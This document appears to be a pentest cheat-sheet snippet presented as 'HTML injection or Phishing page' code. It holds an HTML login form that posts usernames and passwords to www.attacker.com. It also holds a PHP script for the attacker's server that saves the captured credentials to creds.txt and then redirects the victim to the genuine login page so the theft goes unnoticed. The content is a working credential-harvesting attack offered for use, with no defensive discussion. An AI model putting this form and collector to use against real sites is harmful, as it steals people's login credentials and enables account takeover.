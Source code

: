 Use as HTML injection or Phishing page
-----------------------------------
```html
<form method=post action="http://www.attacker.com/login.php">
	<p>Username <input type="text" name="username" /></p>
	<p>Password <input type="password" name="password" /></p>
<input type="submit" value="Submit" name="submit" >
</form>
```


On the attackers server ( php -S xxx.xxx.xxx.xxx:80 )
--------------------------------------------------------------
```php
<?php
if(isset($_POST['submit']))
	{
		$myFile = "./creds.txt";
		$fh = fopen($myFile, 'a') or die("can't open file");
		$stringData = "username: " . $_POST['username'] . "\n";
		fwrite($fh, $stringData);
		$stringData = "password: " . $_POST['password'] . "\n";
		fwrite($fh, $stringData);
		fclose($fh);
	} ?>

<script>location.href='http://www.victims-site.com/login-page-original-page'</script>;
```
